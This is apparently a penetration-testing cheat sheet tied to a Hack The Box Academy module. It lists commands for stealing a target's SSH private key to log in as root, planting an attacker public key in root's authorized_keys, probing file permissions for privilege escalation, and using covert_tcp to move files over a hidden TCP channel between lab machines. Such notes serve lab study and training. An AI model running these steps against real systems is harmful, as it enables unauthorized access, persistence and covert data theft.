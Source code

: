 ```
>ls
>cat id_rsa
Copy private key
Paste to local machine id_rsa
>chmod 600 id_rsa
>ssh root@{targetIP} -i id_rsa
If permission denied, try to specify port
>ssh root@{targetIP} -p {port} -i id_rsa
>whoami

OR
>ssh {user}@{targetIP}
>sudo -u user2 /bin/bash
>cd /root
>cd .ssh
>cat authorised_keys
On local >ssh-keygen -f key
Copy public key to authorised keys
(Through ssh session) >echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
(on local) >ssh root@10.10.10.10 -i key

```
Ref https://academy.hackthebox.com/module/77/section/844

# Escalate Privileges (advanced)
```
>ssh {user}@{targetIP}
>ls -l
>stat -c "%a %A %U %G %F" {filename}
Look for executable files or files with more permisssions
>cp /bin/bash
```

# Covert Communication
```
Download and compile  on both systems:
>wget https://raw.githubusercontent.com/cudeso/security‐ tools/master/networktools/covert/covert_tcp.c
>sudo apt install gcc 
>cc ‐o covert_tcp covert_tcp.c
Start the listener on Parrot OS
>sudo ./covert_tcp ‐dest 192.168.18.144 ‐source 192.168.18.95 ‐source_port 8888 ‐ dest_port 9999 ‐server ‐file /home/user/msg1.txt
192.168.18.144 is the IP of Parrot OS
192.168.18.95 is the IP of Sender (Kali)
8888 is local listening port
9999 is the remote port of kali
‐server puts covert_tcp in listener mode and msg1.txt is the destination file where message will be saved
Send the message from Kali machine
>sudo ./covert_tcp ‐dest 192.168.18.144 ‐source 192.168.18.95 ‐source_port 9999 ‐ dest_port 8888 ‐file /home/kali/msg.txt
192.168.18.144 is the IP of Parrot OS
192.168.18.95 is the IP of Sender (Kali)
8888 is destination listening port on parrot
9999 is the local port of kali
```
